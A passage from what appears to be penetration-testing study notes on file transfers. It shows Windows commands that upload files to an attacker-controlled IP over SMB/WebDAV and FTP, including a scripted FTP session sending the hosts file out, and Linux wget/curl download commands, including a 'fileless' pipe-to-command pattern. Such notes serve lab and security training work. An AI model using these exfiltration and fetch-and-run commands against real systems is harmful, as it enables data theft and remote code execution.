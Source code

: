 3. Upload with SMB

   ```powershell
   > copy [FILE] \\[IP]\DavWWWRoot\
   ```

#### FTP

1. Open FTP server with write 

   ```bash
   sudo python3 -m pyftpdlib --port 21 --write
   ```

2. Powershell to upload

   ```powershell
   (New-Object Net.WebClient).UploadFile('ftp://[IP]/ftp-hosts', 'FILE')
   ```

3. If the shell is not interactive, upload with a FTP Command File:

   ```cmd-session
   C:\htb> echo open 192.168.49.128 > ftpcommand.txt
   C:\htb> echo USER anonymous >> ftpcommand.txt
   C:\htb> echo binary >> ftpcommand.txt
   C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
   C:\htb> echo bye >> ftpcommand.txt
   C:\htb> ftp -v -n -s:ftpcommand.txt
   ftp> open 192.168.49.128
   
   ftp> USER anonymous
   ftp> PUT c:\windows\system32\drivers\etc\hosts
   ftp> bye
   ```

## Linux

### Download

#### Native binaries

https://gtfobins.github.io/

#### wget/cURL (file) 

```bash
wget [LINK] -O [OUTPUT PATH]
```

```bash
curl [LINK] -o [OUTPUT PATH]
```

#### wget/cURL (fileless)

```bash
wget [LINK] -O | [COMMAND]
```
